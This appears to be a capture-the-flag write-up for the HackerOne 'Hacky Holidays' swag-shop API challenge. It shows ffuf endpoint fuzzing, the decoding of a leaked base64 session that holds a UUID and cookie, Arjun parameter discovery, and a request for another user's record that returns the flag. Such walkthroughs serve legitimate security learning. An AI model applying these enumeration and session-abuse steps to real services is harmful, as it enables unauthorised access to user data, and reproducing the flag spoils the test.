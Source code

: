 With FFUF : ```ffuf -u https://hackyholidays.h1ctf.com/swag-shop/api/FUZZ -w wordlist.txt -mc all -t 3```   
  
```
user                    [Status: 400, Size: 35, Words: 3, Lines: 1]
sessions                [Status: 200, Size: 2194, Words: 1, Lines: 1]
```

By examining the **sessions** path, I am able to retrieve several strings encoded in base64 :   
![cf_array](./images/4-sessions.png)  
  
We notice that one of the character strings is longer than the others :   
```
echo -n "eyJ1c2VyIjoiQzdEQ0NFLTBFMERBQi1CMjAyMjYtRkM5MkVBLTFCOTA0MyIsImNvb2tpZSI6Ik5EVTBPREk1TW1ZM1pEWTJNalJpTVdFME1tWTNOR1F4TVdFME9ETXhNemcyTUdFMVlXUmhNVGMwWWpoa1lXRTNNelUxTWpaak5EZzVNRFEyWTJKaFlqWTNZVEZoWTJRM1lqQm1ZVGs0TjJRNVpXUTVNV1E1T1dGa05XRTJNakl5Wm1aak16WmpNRFEzT0RrNVptSTRaalpqT1dVME9HSmhNakl3Tm1Wa01UWT0ifQ==" | base64 -d

{"user":"C7DCCE-0E0DAB-B20226-FC92EA-1B9043","cookie":"NDU0ODI5MmY3ZDY2MjRiMWE0MmY3NGQxMWE0ODMxMzg2MGE1YWRhMTc0YjhkYWE3MzU1MjZjNDg5MDQ2Y2JhYjY3YTFhY2Q3YjBmYTk4N2Q5ZWQ5MWQ5OWFkNWE2MjIyZmZjMzZjMDQ3ODk5ZmI4ZjZjOWU0OGJhMjIwNmVkMTY="}
```

Using the Arjun tool, we are then able to retrieve the valid parameters from the path '/swag-shop/api/user': 

![cf_array](./images/4-arjun.png) 

Thanks to @s0md3v ! (https://github.com/s0md3v/Arjun)

Now, you just have to request ```/swag-shop/api/user?uuid=C7DCCE-0E0DAB-B20226-FC92EA-1B9043```  : 

```
{
  "uuid": "C7DCCE-0E0DAB-B20226-FC92EA-1B9043",
  "username": "grinch",
  "address": {
    "line_1": "The Grinch",
    "line_2": "The Cave",
    "line_3": "Mount Crumpit",
    "line_4": "Whoville"
  },
  "flag": "flag{972e7072-b1b6-4bf7-b825-a912d3fd38d6}"
}
```

